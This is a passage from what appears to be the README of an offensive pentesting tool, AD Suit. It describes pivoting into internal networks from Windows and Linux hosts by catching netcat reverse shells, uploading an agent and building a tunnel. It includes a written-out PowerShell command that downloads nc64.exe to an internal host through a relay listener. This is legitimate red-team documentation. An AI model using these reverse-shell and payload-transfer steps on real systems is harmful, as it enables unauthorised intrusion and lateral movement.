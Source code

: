 
The reverse shell will be recieved on AD Suit:

![image](https://github.com/toneemarqus/AD-Suit/assets/85018947/78411a63-e691-489e-a7d5-5b379dd3d530)

Now after waiting 60 seconds, the tunnel is build and we have connection to the new network:

![image](https://github.com/toneemarqus/AD-Suit/assets/85018947/054d672b-81cb-4ee8-b37b-a9e99626061b)

We can now interact with the new network directly from our normal kali terminal, for example run ping against on of the new network hosts:

![image](https://github.com/toneemarqus/AD-Suit/assets/85018947/d34a340b-cffb-4eb2-868f-f09896ea3999)


<b>Linux host pivoting example</b>:
Here we have another host, but this time the host is with Linux OS, as we can see it's also connected to the external netwok that we have access too "192.168.0.0", and we need to access the "10.0.2.0" network:

![image](https://github.com/toneemarqus/AD-Suit/assets/85018947/30cb41ee-f00d-47cb-bc3a-601cc08d158f)

Here are the AD Suit configurations with listining started:

![image](https://github.com/toneemarqus/AD-Suit/assets/85018947/a3ff15e2-04cc-491d-8d94-5e023c327a9e)

The terminal looks like this:

![image](https://github.com/toneemarqus/AD-Suit/assets/85018947/f8fb09d4-c2d2-477b-87b9-7fc17c906362)

Now we will go to the Linux host and send the reverse shell using netcat, once we hit enter AD Suit will start uploading agent file to the host:

![image](https://github.com/toneemarqus/AD-Suit/assets/85018947/1eec9898-0bc1-4906-9b9d-47bd3beb2b54)

Reverse shell recieved:

![image](https://github.com/toneemarqus/AD-Suit/assets/85018947/c32f3086-4226-4387-8034-c38c41f257ed)

Upload done and we are good to access the new network:

![image](https://github.com/toneemarqus/AD-Suit/assets/85018947/91525b05-9b7e-476b-8629-06235308c3f2)

<b>For Linux, if you need to access a container on the same host, the tool will help you do that too! just put the container network ip in the interface field).</b>

### File Uploading with pivoting tab

Fot both windows and linux host examples above, a listener is added on the host that the reverse is sent from, if you are on one of the internal hosts, you will not be able to access kali directly.

To solve this problem a listener is added, to use it follow this example which will upload nc64.exe to the internal host, make sur you have python http server on port 80 on your kali:


```
iwr -uri http://10.0.2.5:1234/nc64.exe -Outfile nc64.exe

```
The above command will send the request to the dual host port "1234" that we send the reverse shell from then the host will forward it to port "80" on kali and the file will be uploaded.
